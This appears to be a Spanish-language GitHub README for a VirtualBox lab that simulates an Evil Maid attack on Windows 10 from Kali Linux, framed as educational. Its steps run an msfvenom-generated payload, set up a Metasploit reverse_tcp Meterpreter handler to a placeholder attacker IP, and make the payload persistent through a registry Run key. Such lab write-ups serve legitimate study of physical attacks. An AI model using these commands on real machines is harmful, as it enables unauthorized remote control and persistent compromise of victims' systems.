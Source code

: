 # Evil-Maid
EVIL MAID ATTACK - LABORATORIO VIRTUAL📌 

DescripciónEste proyecto documenta la simulación de un ataque Evil Maid en un entorno virtual usando VirtualBox. Se busca demostrar cómo un atacante con acceso físico a una máquina puede comprometer la seguridad de un sistema operativo mediante un ataque persistente.


🔧 RequisitosPara replicar este laboratorio, se necesita:
VirtualBox con Extension Pack instalado.
Kali Linux (Atacante).
Windows 10 (Víctima).
Tiny Core Linux (Soporte de persistencia).
USB Booteable con herramientas de ataque.
Plop Boot Manager (Opcional, para boot desde USB en VirtualBox).

______________________________________________________________________________________________________________________________________________________________
🚀 Configuración del Laboratorio
1️⃣ Configurar VirtualBoxInstalar VirtualBox y su Extension Pack.
Crear tres máquinas virtuales:
Kali Linux (Atacante)
Windows 10 (Víctima)
Tiny Core Linux (Soporte/Persistencia)
Configurar el orden de arranque para permitir boot desde USB/CD.

________________________________________________________________________________________________________________________________________________________________
2️⃣ Crear USB BooteableUsar rufus o dd para crear un USB booteable con Kali Linux.
Verificar que el USB es detectado con lsusb.
Agregar la USB a VirtualBox usando:
VBoxManage internalcommands createrawvmdk -filename C:\usb.vmdk -rawdisk \.\PhysicalDriveX(Reemplazar X con el número de la USB en diskpart).

_______________________________________________________________________________________________________________________________________________________________
3️⃣ Realizar el Ataque Evil MaidArrancar Windows 10 desde Kali Linux o Tiny Core.
Copiar y ejecutar el payload malicioso:
start C:\Windows\System32\evilmaid.exe

_______________________________________________________________________________________________________________________________________________________________
Configurar una sesión de Meterpreter en Kali Linux:
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP_KALI>
set LPORT 4444

_______________________________________________________________________________________________________________________________________________________________
exploitHacer persistente el payload:
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v evilmaid /t REG_SZ /d "C:\Windows\System32\evilmaid.exe"

_______________________________________________________________________________________________________________________________________________________________
📂 Archivos Incluidosevilmaid.exe 
- Payload generado con msfvenom.
usb.vmdk -Archivo VMDK para montar la USB en VirtualBox.
configuracion_lab.md - Instrucciones detalladas del laboratorio.

_______________________________________________________________________________________________________________________________________________________________
🔗 ReferenciasKali Linux - Metasploit
VirtualBox Manual
Plop Boot Manager

_______________________________________________________________________________________________________________________________________________________________
✨ CréditosProyecto desarrollado por Jordan Michael como parte del estudio de ataques físicos a sistemas operativos en entornos virtualizados.

_______________________________________________________________________________________________________________________________________________________________
📌 Nota: Este documento es solo para fines educativos. No debe ser utilizado en sistemas sin autorización.

_______________________________________________________________________________________________________________________________________________________________
